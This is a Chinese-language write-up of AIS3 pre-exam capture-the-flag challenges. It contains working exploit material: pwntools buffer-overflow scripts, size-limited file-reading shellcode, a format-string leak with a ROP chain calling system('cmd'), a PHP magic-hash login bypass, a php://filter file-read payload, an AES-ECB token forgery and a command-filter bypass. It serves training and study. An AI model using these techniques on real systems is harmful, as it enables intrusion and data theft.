

# AIS3 pre-exam write up
## Web 1
## Web 2
這題會給你這個網頁的 php
要想辦法登入

code ( 憑記憶打的，原本的 code 沒有存起來 ) ：
```php
user = (string) $_POST['username']
passwd = (string) $_POST['password']
if(user == db['username'] && md5(passwd) == db['password'])
```
後來查到這個 http://php.net/manual/en/language.operators.comparison.php
所以 "0e23" == "0e11" 是 true
接下來去看所有帳戶的 md5 後的密碼，會看到有一個人的是 "0exxxxxxxxx"
然後再去找一個字串會讓他的 md5 hash = "0exxxxxx" 就可以登入了
( 這種 hash 被命名為 —— Magic hash )
## Web 3
這題使用的是 `php://filter/convert.base64-encode`
index.php?p=php://filter/convert.base64-encode/resource=filename
他會把 filename 這個檔案用 base64 編碼後傳回來
解碼後就會看到 flag 了

## Web 4
## Pwn 1
這題會把輸入的字串當作位址跳過去
然後藏了一個 function:


所以只要跳到這裡執行就拿到 shell 了
code:
```python=
from pwn import *


print p32(0x0804860a)
conn = remote('quiz.ais3.org', 9561)
conn.sendline(p32(0x08048613))
conn.interactive()
```


cat flag 的目錄 ( 當時找很久... )
``` cat /home/pwn1/flag```
## Pwn 2
先觀察登入的 code
```clike
int password;
ais3_user.pass = (int)&password;
puts("======== AIS3 Login sytem ========");
printf(" Username : ");
scanf("%s",ais3_user.name);
printf(" Password : ");
scanf("%d", &password);
if (password == ais3_user.pass) {
	puts("Login Success !");
	while (1) {
		menu();
		fgets(choice, 4, stdin);
		switch (atoi(choice)) {
			case 1:
				readflag();
				break;
			case 2 :
				puts("Bye ~");
				exit(0);
				break;
			deafult:
				puts("Invaild choice !");
				break;

		}
	}
}
```
```password == ais3_user.pass``` 這行要成立才能登入。

接下來看看```ais3_user.pass = (int)&password;```，我不知道 password 的位址 (也許可以用猜的？) ，於是去觀察一下 ais3_user 這個結構：
```clike
struct user {
	char name[20];
	int pass;
} ais3_user;
```
如果輸入：
```
 Username : pi31415926
 Password : 12345
```
在記憶體內放的方式 ( 示意圖 ) ：
|variable|address|0|1|2|3|
|--|--|--|--|--|--|
|name[0]|0xffffffe0|'p'|'i'|'3'|'1'|
|name[4]|0xffffffe4|'4'|'1'|'5'|'9'|
|name[8]|0xffffffe8|'2'|'6'|0|0|
|...|...|...|...|...|...|
|name[16]|0xfffffff0|0|0|0|0|
|pass|0xfffffff4|39h|30h|0|0|

所以你可以這樣放：
|variable|address|0|1|2|3|
|--|--|--|--|--|--|
|name[0]|0xffffffe0|'A'|'A'|'A'|'A'|
|name[4]|0xffffffe4|'A'|'A'|'A'|'A'|
|name[8]|0xffffffe8|'A'|'A'|'A'|'A'|
|...|...|...|...|...|...|
|name[16]|0xfffffff0|'A'|'A'|'A'|'A'|
|pass|0xfffffff4|'A'|'A'|'A'|'A'|

輸入完姓名 ```'A' * 24``` 後再輸入 ```1094795585``` (0x41414141) 就可以登入了。

不過他把 flag 都跟 ais3_user.pass 互斥或：
```clike
char buf[100];
FILE *fp;
fp = fopen("./flag.txt", "rb");
if (fp) {
	fread(buf, 40, 1, fp);
	fclose(fp);
	for (int i = 0; i < 40; i++) {
		buf[i] = buf[i] ^ ais3_user.pass;
	}
	printf("Magic : %s\n", buf);
}
```
因為 buf 的大小為 char ，所以我只要跟一個 'A' 互斥或 flag 就出來了，完整的 python code ：
```python=
from pwn import *

conn = remote('quiz.ais3.org', 56746)
conn.sendline('A'*24)
conn.sendline('1094795585')
conn.sendline('1')
conn.recvuntil("Magic :")
s = conn.recvline()
ary = []
for i in s:
    ary.append(chr(ord(i) ^ ord('A')))

print ''.join(ary)
conn.interactive()

```
flag:```ais3{Just_a_simpl3_overflow}```
## Pwn 3
這題要執行 shell code 讀取 flag 但是有以下的限制條件：
### 限制
* 最大長度 = 87 bytes
* 不能有 "flag" 字串出現在 shellcode 裡
* 只能用 open, read, write
* 一次最多讀取 0x29 個 bytes

### 減少 shellcode
原本找到 fseek 可以幫你把讀的位址偏移，但是 shellcode 變得更長了，所以放棄。
只好盡量壓縮現有的 shellcode

我使用的是 RingZer0 他們的 [x86_64 shellcode](http://shell-storm.org/shellcode/files/shellcode-878.php) ，
修改後的版本：
```
BITS 64
global _start

section .text

_start:
    jmp _push_filename

_readfile:
    ; syscall open file
    pop rdi ; pop path value
    ; NULL byte fix
    dec byte [rdi + 15]
    inc byte [rdi + 14]

    xor rax, rax
    add al, 2
    xor rsi, rsi ; set O_RDONLY flag
    syscall

    ; syscall read file
    mov rdi, rax
    sub sp, 0x29
    lea rsi, [rsp]
    xor rdx, rdx
    add dx, 0x29; size to read
    sub al, al
    syscall
    sub al, al
    syscall
    sub al, al
    syscall

    ; syscall write to stdout
    xor rdi, rdi
    add dil, 1 ; set stdout fd = 1
    mov rdx, rax
    sub al, al
    add al, 1
    syscall


_push_filename:
    call _readfile
    path: db "/home/pwn3/flaf", 1

```


最後變成 86 bytes ( 剛好等於 87 bytes 沒辦法執行，我不知道為什麼... ，也許是 C 讀字串的時候為了讓最後一個字元為 '\0' 把 shellcode 最後一個 byte 吃掉了吧 )


#### 要修改部分
* 將原本的 xor rax, rax 改成 sub al, al
* 修飾字串的時候用 inc, dec
* 往下讀 0x29 個 bytes 只要多加兩行：
```
sub al, al
syscall
```

flag: ```ais3{r34d_0p3n_r34d_Writ3_c4ptur3_th3_fl4g_sh3llc0ding_1s_s0_fUn_y0ur_4r3_4_g0od_h4ck3r_h4h4}```


## Pwn 4
rev4 解完之後突然看到可以 leek address
然後一邊玩遊戲一邊解就出來了 (?
畢竟不是在 pre-exam 時測試的，不確定是否可行
我利用當時主辦方提供的 AppJailLauncher.exe 架設環境


這個程式可以做 3 個動作：
1. echo 字串
2. buffer overflow
3. exit

echo function 可以 format string exploit ( 第七行 )
echo 原始碼：
```clike=
void echo() 
	char buf[16];
	if (!count) {
		printf("What do you want to say : ");
		read(0, buf, 15);
		printf("You say : ");
		printf(buf);
		count++;
	}else {
		puts("Hello world !");
	}
}
```

bof 原始碼：
```clike=
int bof() {
	int size;
	char buf[20];
	puts("Do you know stack overflow ?");
	printf("Try your best : ");
	size = read(0,buf,100);
	puts("Boom !!!");
	return size;
}
```

main ：
```clike=
int main() {
	char buf[8];
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stdin, NULL, _IONBF, 0);
	while (1) {
		menu();
		read(0, buf, 7);
		switch (atoi(buf)) {
			case 1:
				echo();
				break;
			case 2:
				bof();
				break;
			case 3:
				system("echo Bye");
				exit(0);
				break;
			default:
				puts("Invalid choice");
				break;
		}

	}
    return 0;
}
```
我需要 leek 兩個位置：
* 程式的開始位址
    * 加上偏移之後想去哪就去哪 : 3
* buf 的位址
    * 把 buf 內的字串當作參數餵給 system()

這題我用 ROP 來做
先來看如何呼叫 system ：


從上圖可以知道 system 內的字串位址先存進 rcx
再去呼叫 system

所以要找到一個 ROP gadget `pop rcx ; ret`
不過很不幸的：
```
$ ./rp-win-x64.exe -f pwn4.exe -r 8 | grep 'pop rcx'
0x14001108f: pop rcx ; retn 0x0F66 ;  (1 found)
0x1400111c6: pop rcx ; retn 0x0FF2 ;  (1 found)
```
雖然有找到
但是 retn 0xf66 在 return 時會 pop 0xf66 bytes 出來
然後 bof 的限制是 100 bytes ，所以不能用 QQ

接下來找有沒有 `mov rcx, reg`
然後再 `pop reg`

```
0x140002648: mov rcx, rdi ; call rsi ;  (1 found)
0x140001519: pop rdi ; ret  ;  (1 found)
```
雖然找到了，但是又有一個問題 `call rsi`
所以又要找一個 `pop rsi`
```
0x140001d45: pop rsi ; ret  ;  (1 found)
```

所以整個流程是：
```
0x140001519: pop rdi ; ret  ;  (1 found)
0x140001d45: pop rsi ; ret  ;  (1 found)
0x140002648: mov rcx, rdi ; call rsi ;  (1 found)
```

stack 狀態：
| stack |
| -------- |
| 'cmd\x00'|
| 'A' * 28|
| 0x140001519|
| &buf[0]|
| 0x140001d45|
| &system |
| 0x140002648|

這樣就能成功呼叫 cmd 了
code ：
```python=
from pwn import *


def leek():
    conn.sendline('1')
    conn.sendline('%p %p')
    conn.recvuntil('You say : ')
    adr = conn.recvline()
    adr = adr.split(' ')
    adr = [int(i, 16) for i in adr]
    return adr


def buf(str):
    conn.sendline('2')
    conn.sendline(str)


conn = remote('192.168.198.1', 4444)

adrList = leek()
base = adrList[0] - 0x14001E098
cmd_adr = adrList[1] + 0x1ca0
command = 'cmd\x00'
system_adr = base + 0x140004628
pop_rdi_ret = base + 0x140001519
pop_rsi_ret = base + 0x140001d45
mov_rcx_rdi_call_rsi = base + 0x140002648

bufStr = command
bufStr += 'A' * (32 - len(command))
bufStr += p64(pop_rdi_ret)
bufStr += p64(cmd_adr)
bufStr += p64(pop_rsi_ret)
bufStr += p64(system_adr)
bufStr += p64(mov_rcx_rdi_call_rsi)
buf(bufStr)

conn.interactive()

```


## Rev 1
一個奇怪的小視窗，點他還會自己關閉 (・ω・)


### 0x00
打開 IDA 分析會找到一個 print_flag function ：

### 0x01
看起來會幫我們把 flag print 出來，於是直接丟進 ollydbg ，把斷點下在 print flag 的地方：


## Rev 2
### 0x00
先 file rev2


### 0x01
用 IDA 分析

他用當時的時間當作亂數種子，產生亂數與 flag 互斥或後再寫入到檔案內。
所以我們只要找出當時的時間，把加密的 flag 跟亂數互斥或， flag 就出來了。
### 0x02
提示說他們在 6/26 號建立的，所以從 6/26 00:00:00 ~ 23:59:59 全部的時間當作種子，然後跟加密的 flag 互斥或，把答案爆出來 : 3

code：
```clike
#include <stdio.h>
#include <stdlib.h> 
#include <time.h>
#include <string.h>
#define t 1498406400

char encrypt[] = "\x78\x66\xe6\x2b\x4a\x3c\x9a\x7b\x9f"
                 "\xe6\x4b\xd2\xac\xd5\x1e\xfe\x4f\xa8"
                 "\x91\xcd\x6c\xc0\x6d\x25";
void pflag(int sed)
{
    char flag[25];
    flag[24] = '\0';
    srand(sed);
    int len = strlen(encrypt);
    int i, rnd;
   
    for(i = 0; i < len; i++)
    {
        rnd = rand();
        flag[i] = (rnd ^ encrypt[i]) & 0xff;
    }
    printf("%s\n", flag);
}

int main()
{
    int i, x, y, z;
    int a = 24 * 60 * 60 * 1; // 1 day (second)
    for(i = 0; i <= a; i++)
    {
        pflag(t + i);
    }
    return 0;
}

```
我懶得用 C 寫檔，直接用 Linux 的 stdout :p
```shell
$ ./rev2.out > flag
```
接下來到 flag 檔案裡搜尋 ais 就有了 ( 當時搜尋 AIS 找不到，嚇死我了 ) 。
## Rev 3
### 0x00
直接執行會發現可以輸入 17 個數字，然後什麼都不會發生 : 3
丟到 IDA 裡去分析，他會把我們輸入的 17 個數字做一個神祕的 check 。

input 會把輸入填到一個 5 X 5 矩陣內，
初始矩陣如下：

| 17 | 0 | 0 |10|0|
| -------- | -------- | -------- |-- |-- |
|0|0|6|0|18|
|1|0|0|0|0|
|0|0|0|21|2|
|0|16|0|0|0|

0 的部分會被填入那 17 個數字

---
check 會檢查以下幾點 ( 令矩陣為 data ) ：
1. 矩陣內的數字只能是 1 ~ 25
1. 矩陣每一列的總和 == 每一行的總和 == 65 
1. 矩陣內不能有相同的數字
1. data[6]-data[16]+data[24]-data[8]+data[18]-data[20]+data[0]-data[4] == 0
1. 把矩陣轉成 25 字元拿去 sha256 == cf2...(省略)...6a5
```clike
// 65 是由第二點推的，如下：
total = (1 + 25) * 25 / 2;
sum_of_row_or_col = total / 5; // 65
```
---

### 0x01
因為解歷屆題目的時候看到有人用 angr 做，就剛好學了一些 Solver Engine 的用法。

先把上面的 1 ~ 4 點加入 Solver Engine

```python
s = claripy.Solver()
x = []
ans = [17, 0, 0, 10, 0, 0, 0, 6, 0, 18, 1, 0,
       0, 0, 0, 0, 0, 0, 21, 2, 0, 16, 0, 0, 0]
for i in xrange(17):
    x.append(claripy.BVS(str(i), 8))
    for j in ans:
        s.add(x[i] != j)
    s.add(claripy.ULE(x[i], 25))

# add rule !=
for i, vali in enumerate(x):
    for j, valj in enumerate(x):
        if(i != j):
            s.add(vali != valj)

# add x to ans
ind = 0
for i, val in enumerate(ans):
    if val == 0:
        ans[i] = x[ind]
        ind += 1

# total(row), total(col) == 65
rule = [0 for i in range(10)]
for i in xrange(5):
    for j in xrange(5):
        rule[i] += ans[i * 5 + j]
        rule[5 + j] += ans[i * 5 + j]

for i in rule:
    s.add(i == 65)

s.add((x[4] - x[11] + x[16] - x[5] + 0x15 - x[13] + 0x11 - x[2]) == 0)

```

我沒有把 sha256 加進去，因為我不知道怎麼加 orz
所以就把可能的解全部列出來再拿去 sha256 把它爆出來 ヽ(\`Д´)ノ

完整的 code ：
```python=
import claripy
import hashlib


def findAns(ind):
    possible = s.eval(x[ind], 17, extra_constraints=ext)
    if ind > 15:
        ruleAry.append(ext[:])
        print 'add new ext'
        return

    for i in possible:
        ext.append(x[ind] == i)
        findAns(ind + 1)
        ext.pop()

ruleAry = []
s = claripy.Solver()
x = []
ans = [17, 0, 0, 10, 0, 0, 0, 6, 0, 18, 1, 0,
       0, 0, 0, 0, 0, 0, 21, 2, 0, 16, 0, 0, 0]
for i in xrange(17):
    x.append(claripy.BVS(str(i), 8))
    for j in ans:
        s.add(x[i] != j)
    s.add(claripy.ULE(x[i], 25))

# add rule !=
for i, vali in enumerate(x):
    for j, valj in enumerate(x):
        if(i != j):
            s.add(vali != valj)

# add x to ans
ind = 0
for i, val in enumerate(ans):
    if val == 0:
        ans[i] = x[ind]
        ind += 1

# total(row), total(col) == 65
rule = [0 for i in range(10)]
for i in xrange(5):
    for j in xrange(5):
        rule[i] += ans[i * 5 + j]
        rule[5 + j] += ans[i * 5 + j]

for i in rule:
    s.add(i == 65)

s.add((x[4] - x[11] + x[16] - x[5]+0x15 - x[13] + 0x11 - x[2]) == 0)

ext = []
findAns(0)
for i in ruleAry:
    # print i
    curAns = []
    for j in x:
        curAns.append(s.eval(j, 1, extra_constraints=i)[0])

    ind = 0
    curAnsAry = ans[:]
    for j, val in enumerate(curAnsAry):
        if not isinstance(val, int):
            curAnsAry[j] = curAns[ind]
            ind += 1

    curAnsAryChr = [chr(k) for k in curAnsAry]
    ha = hashlib.sha256(''.join(curAnsAryChr)).hexdigest()
    print ha
    if ha == 'cf252238dc5077b46d45cf941d09d925' \
             'd141cc55bb7a8f96a8648b594af3a6a5':
        data = curAnsAry
        break

f = [0x70, 0x7E, 0x77, 0x39, 0x70,
     0x51, 0x5A, 0x65, 0x6D, 0x7C,
     0x5E, 0x74, 0x62, 0x7F, 0x6F,
     0x6D, 0x51, 0x21, 0x6D, 0x37,
     0x2E, 0x31, 0x68, 0x7D, 0x74]

s = ''
for i, val in enumerate(data):
    s += chr(val ^ f[i])

print s

```
## Rev 4
先耍廢了一天之後突然想到解法
然後就解出來了...
但是已經結束了QQ


他會把你輸入的數字拿去運算
數字正確就會 print 出 flag
錯誤會 print 出一堆亂碼

---

用 IDA 分析後會發現一個 worker function


看來 solve(0x400) 的回傳結果就是 print flag 的數字
所以跟進去 solve function 分析


再跟進去 recursive


這個遞迴是用來尋找最短路徑的和
它的 graph 長這樣 ( 以下用 a1|a2 表示 recursive 的參數 ) ：

這是 0|0 ~ 3|3 的圖
要求出 0|0 ~ 1023|1023 的最短路徑會非常的久
我使用 dijkstra 加速找最短路徑的時間

路徑的 cost 存在 matrix 標籤內


matrix 的記憶體範圍是 0x6020e0 ~ 0xe020e0 (0x800000 bytes)
所以用 gdb 把這個範圍的資料 dump 出來處理

```j
(gdb)$ dump binary memory Filename 0x6020e0 0xe020e0
```


完整的 code ：
```python=
with open("Filename", 'r') as f:
    matrix_hex = f.read()

chunk = len(matrix_hex)
chunk_size = 8
matrix = [matrix_hex[i:i+chunk_size][::-1].encode('hex')
          for i in range(0, chunk, chunk_size)]
matrix = [int(i, 16) for i in matrix]

N = 0x400
node = [[0 for i in range(N)] for j in range(N)]
for i in xrange(N * 2 - 1):
    if i < N:
        left = i
        right = 0
    else:
        left = N - 1
        right = i - N + 1

    while left in range(N) and right in range(N):
        findMin = []
        if right - 1 in range(N):
            findMin.append(node[left][right - 1])
        if left - 1 in range(N):
            findMin.append(node[left - 1][right])

        node[left][right] = (
            matrix[(left << 10) + right] +
            min([0] if not findMin else findMin))

        left -= 1
        right += 1

print node[N-1][N-1]
# 2499910047264
```
用 dijkstra 要跑 2 分鐘左右

不知道有沒有人跟我一樣
直接呼叫 worker 去跑
還沒跑完 pre-exam 就結束了 XD

flag:
ais3{U_5o1vEd_mInimum_P@tH_suM}

google 了一下，這種寫法好像不叫 dijkstra
不過概念不是差不多嗎 XD

## Crypto 1
這題原本的 code 被我弄亂，我就不貼了 : 3
提示有說 flag 開頭為 AIS3 所以只要用 'A' 跟第一個加密的文字 XOR 就有 key 了
接下來把所有加密的文字跟 key XOR

解出 flag 的 code:
```python=
ary = [1376627084, 1208859320, 1482862807, 1326295511, 1181531558, 2003814564]
s = ""
for i in ary:
    s += hex(i ^ 170780919)[2:].decode('hex')[::-1]

print s
#AIS3{A XOR B XOR A EQUALS B}

```


## Crypto 2
這題是使用 AES-ECB 加密
可以選擇註冊或是登入
成功註冊的話會把帳號、密碼組成字串拿去加密
並幫你把加密好的字串轉成 base64 傳回來 (token)
```python
pattern = 'name=' + name + '&role=student' + '&password=' + pwd
print('This is your token: ' + b64e(aes.encrypt(pattern)).decode())
```

可以直接拿這個 token 去登入
只是 flag 不會 print 出來
flag 被 print 的條件是 role=admin
```python
if b'admin' in data[b'role']:
    print('Hi admin:')
    printFlag()
```

解法：
因為 AES-ECB 是每 16 bytes 為一個區塊分別加密的，且 ECB 是每一個區塊都用同一個 key 的版本
所以這題只要換頭之後 flag 就出來了

先把需要的頭與身體找出來
```
name=aaaaa&role= student&password =aaaaa
# base64 to hex
# 10918CD72F3AD80821205D0C20733AC2
# 42E86E7DF449763397E8859864DE214D
# E3CCF163B46B0624839E4C85654D09D2

name=aaaaaaaaaaa admin&role=stude nt&password=aaaa a
# base64 to hex
# 78CE95C21D8A6F6437F02E0176504C31
# AA7F68F9853EAC8F44ED6F5A3AEB6D80
# ACCBB4C1E38D02C2364E0329E6E3356A
# A76D3C781520A6D610BB3BE039757D71

# 合成之後
name=aaaaa&role= admin&role=stude nt&password=aaaa a
# 10918CD72F3AD80821205D0C20733AC2
# AA7F68F9853EAC8F44ED6F5A3AEB6D80
# ACCBB4C1E38D02C2364E0329E6E3356A
# A76D3C781520A6D610BB3BE039757D71
# hex to base64
# EJGM1y862AghIF0MIHM6wqp/aPmFPqyPRO1vWjrrbYCsy7TB440CwjZOAynm4zVqp208eBUgptYQuzvgOXV9cQ==
```

有這串 token 後就能拿到 flag 了
上面的值是在 pre-exam 時隨便記下來的，僅供參考

另外，這樣做會成功是因為
```python
data = parse_qs(pt, strict_parsing=True)
data[b'role'] == ['admin', 'student']
b'admin' in data[b'role']
```
所以只要 'admin' 有在裡面就可以了。


## Crypto 3
I find this write up:
https://0xd13a.github.io/ctfs/bkp2017/prudentialv2/
## Crypto 4
unsolved
## MISC 1
送分題
## MISC 2
一個網頁

這個數獨真的很騙 (╬☉д⊙)
這張圖被註解掉，不重要...

去抓一下封包會看到 Header 內有一欄是 HereItis
內容使用 base64 encode
解出來之後會發現它是一個 XXX.php (我忘了)
只要去請求那個 php 頁面會看到下圖


在網頁上看不到 flag ( 背景是白的 )
不過只要手賤如我
移動一下圖片就看的到了

## MISC 3

拿到檔案必做的事


---
丟進 IDA 分析


會發現 main function 內什麼都沒有 (・ω・)

在左邊 function window 找一下會看到 callme1~3, decrypt, output

有幾點需要注意：
* output 看起來會 print flag
* decrypt 會把 encrypt 內的資料解密，不過同時會動到 table 內的資料
* 所以如果要成功 print flag 要**依序呼叫 callme1, callme2, callme3**
( 這點我花很多時間才想到，因為 decrypt 太長我不想看 (σ ﾟ∀ﾟ)σ )

### callme1


這並不是完整的 callme1


直接看組語會發現明明在 callme1 結束前有 call decrypt 和 output
不過 Pseudocode 裡卻沒有

往上看會發現這幾行
```
mov [rbp+a], 2
cmp [rbp+a], 2
jnz short loc_400f77
```
一個一定不會跳的概念 : 3

畢竟提示都說 It should be 1! 了
接下來就開 gdb 一邊執行一邊改吧

### call callme1
另外要注意的是，一開始 main 只會讓你輸入 5 個字 ("%5s")
所以就算利用 main 那邊的 input 打 "HELLOWORLD" ，你還是要改 : 3

斷點下在 `call strcmp` 然後執行：
`set {char [11]} input = "HELLOWORLD"`

斷點下在 `cmp [rbp-0x4], 2` 然後執行：
`set {int} ($rbp-4) = 1`

在 exit 之前下斷點
下 continue 指令後就會看到第一個部分的 flag ：


### call callme2


這題比 callme1 還簡單，只要改一次字串就好

只是要記得在 callme1 執行完之後跳去 callme2
`set $rip = callme2`

斷點下在 `call strcmp` 然後執行：
`set {char [15]} input = "YOUAREANEXPERT"`

第二部分 flag ：


### call callme3


這題除了改字串外，還要把 encrypted 的前 8 bytes 復原

把斷點下在 `call strcmp` 執行：
`set {char [14]} input = "LASTONEGOGOG0"`

把斷點下在 `call memcmp` 執行：
```
set {int} encrypted = 0xb3e87edb
set {int} (*encrypted+4) = 0x511f0a7a
```

第三部分 flag ：


ais3{TIMEFORDEBUGGING!!}


## MISC 4
這題使用指令開目錄下的 shell
```shell
./shell dosomething
```
雖然會幫你呼叫 system function 執行 dosomething 這字串
但是會把所有的環境變數刪掉
並且 dosomething 內不能有 "\\", "/", "flag", "export", ... etc
就是不讓你直接 cat flag

解法：
```shell
./shell 'read a1; $a1'

# 然後輸入
/bin/cat /home/misc4/flag
```

這樣做就可以打 "/" 了

幾乎沒在用這指令 : 3
還好有印象
